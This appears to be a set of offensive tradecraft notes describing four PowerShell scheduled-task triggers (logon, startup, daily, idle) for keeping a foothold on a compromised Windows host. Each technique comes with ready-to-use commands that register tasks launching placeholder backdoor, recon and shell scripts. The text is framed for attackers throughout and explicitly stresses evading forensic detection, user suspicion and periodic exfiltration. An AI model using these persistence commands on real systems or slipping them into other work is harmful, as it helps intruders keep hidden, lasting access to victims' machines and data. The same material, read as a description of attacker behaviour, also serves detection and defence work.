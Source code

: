 When leveraging scheduled tasks for persistence on a Windows host, various actions and trigger combinations can be applied using PowerShell. These methods allow an attacker to ensure their payload or persistence mechanism re-executes at intervals or upon certain system events, ensuring consistent access or persistence on the target. Below is a comprehensive list of viable scheduled task actions and trigger combinations for persistence on a Windows host using PowerShell:

#### Trigger on Logon
   - Description: A scheduled task that is triggered whenever a specific user or any user logs into the system. This is one of the most common ways to persist a backdoor or malicious script.
   - PowerShell Command:
     ```powershell
     $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\path\to\payload.ps1"
     $trigger = New-ScheduledTaskTrigger -AtLogon
     Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "LogonTask" -Description "Persistent Payload"
     ```
   - Use Case: This is viable for persistence since it ensures that the task executes each time a user logs in, providing an attacker access when the target logs in.

#### Trigger on System Startup
   - Description: A task that triggers when the system starts, before any user logs in.
   - PowerShell Command:
     ```powershell
     $action = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\path\to\backdoor.bat"
     $trigger = New-ScheduledTaskTrigger -AtStartup
     Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "StartupTask" -Description "Persistent Backdoor"
     ```
   - Use Case: Persistence at system startup guarantees execution as soon as the system powers on, making it ideal for attackers who want their payloads to run at the earliest possible time.

#### Daily Time-Based Trigger
   - Description: Executes a task every day at a specific time. This type of task can be less obvious than a logon or startup task and may evade detection during typical forensic analysis.
   - PowerShell Command:
     ```powershell
     $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\path\to\recon.ps1"
     $trigger = New-ScheduledTaskTrigger -Daily -At "10:00AM"
     Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "DailyReconTask" -Description "Daily Recon Script"
     ```
   - Use Case: A time-based trigger might be useful for periodic data exfiltration or executing a persistence payload on a daily schedule, blending into legitimate system activity.

#### Trigger on Idle
   - Description: A task that triggers when the system is idle, such as when the user is not actively interacting with the system.
   - PowerShell Command:
     ```powershell
     $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\path\to\shell.ps1"
     $trigger = New-ScheduledTaskTrigger -AtIdle
     Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "IdleShellTask" -Description "Idle Shell Execution"
     ```
   - Use Case: Triggering the task during idle time can help avoid detection because it runs when the system is not in use, reducing the likelihood of raising user suspicion.

